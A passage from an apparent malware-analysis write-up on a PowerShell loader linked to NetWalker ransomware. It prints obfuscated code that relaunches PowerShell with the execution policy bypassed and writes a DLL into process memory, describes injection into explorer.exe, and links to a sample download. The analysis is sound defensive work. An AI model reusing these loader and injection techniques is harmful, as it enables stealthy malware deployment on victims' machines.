 {% highlight powershell %}
[byte[]]$EbihwfodUZMKtNCBx = $ptFvKdtq
$aukhgaZFiPJBarSpJc = $false
if ( ( Get-WmiObject Win32_processor).AddressWidth -eq 64 )
{
 [byte[]]$EbihwfodUZMKtNCBx = $GxwyKvgEkr
 $aukhgaZFiPJBarSpJc = $true    
 if ( $env:PROCESSOR_ARCHITECTURE -ne 'amd64' )
    {
      if ($myInvocation.Line) 
         {
            &"$env:WINDIR\sysnative\windowspowershell\v1.0\powershell.exe" -ExecutionPolicy ByPass -NoLogo -NonInteractive -NoProfile -NoExit $myInvocation.Line
         }
      else
         {
            &"$env:WINDIR\sysnative\windowspowershell\v1.0\powershell.exe" -ExecutionPolicy ByPass -NoLogo -NonInteractive -NoProfile -NoExit -file "$($myInvocation.InvocationName)" $args
         }
      exit $lastexitcode
    }
}
{% endhighlight %}

later it allocates memory in current process's address space and starts writing dll on the allocated memory using following for loop

{% highlight powershell %}
for( $dxQpkwU = 0; $dxQpkwU -lt $TKgfkdkQrLMAN.KGcnFrQVhkckQriBC.nKkeCknfm; $dxQpkwU++ )
{
    $PdWhwldJHtQhtsMJe = [System.Runtime.InteropServices.Marshal]::PtrToStructure( $lItUIbvCvHxzMmrKtX,[Type][Fvh.wTEWKRjOqBX] )
    $rZKYDiOJE  = RBeMnMHvnbNEob $eIr $( ULhnbcyXERLvVtGXUp $PdWhwldJHtQhtsMJe.sUtYsMhA )
    $MxyiIYGMhxakrDbKyjL = RBeMnMHvnbNEob $upEcLTMCGhc $( ULhnbcyXERLvVtGXUp $PdWhwldJHtQhtsMJe.cymIspbCOaY )
    $mofiZSsnxylxNuA = $AaauDVCQMlKUXx::PMUN( $VxxHhZYpWSgsPvKNuDx, $MxyiIYGMhxakrDbKyjL, $rZKYDiOJE, $PdWhwldJHtQhtsMJe.mkvugoDzrJgTSSJp, [ref]([UInt32]0 ) )
   
    if ( $mofiZSsnxylxNuA -eq $false )
       {
         return
       }
    $lItUIbvCvHxzMmrKtX = RBeMnMHvnbNEob $lItUIbvCvHxzMmrKtX $([System.Runtime.InteropServices.Marshal]::SizeOf([Type][Fvh.wTEWKRjOqBX]))
}
{% endhighlight %}

snapshot of object containig dll that gets written into current process's memory

![image](/assets/images/psloader/dll_struct.png){:class="img-responsive"}

after that it calls following routine with certain parameters to inject payload by specifying a legitimate target process which is 'explorer.exe' in this case along with memory location pointer for buffer containg Dll and size of the buffer containing dll


[netwalker-ransomware]: https://labs.sentinelone.com/netwalker-ransomware-no-respite-no-english-required/
[fileless-attacks]: https://www.trendmicro.com/vinfo/us/security/news/cybercrime-and-digital-threats/security-101-how-fileless-attacks-work-and-persist-in-systems
[link-to-download-ps1-loader]: https://bazaar.abuse.ch/download/f4656a9af30e98ed2103194f798fa00fd1686618e3e62fba6b15c9959135b7be/
[md5-e17951ccd3f30ef2ecc7963628210a5e]: https://www.virustotal.com/gui/file/302ff75667460accbbd909275cf912f4543c4fb4ea9f0d0bad2f4d5e6225837b/detection
[md5-f5c877335920f0ef040228e18b426d00]: https://www.virustotal.com/gui/file/f93209fccd0c452b8b5dc9db46341281344156bbedd23a47d2d551f80f460534/detection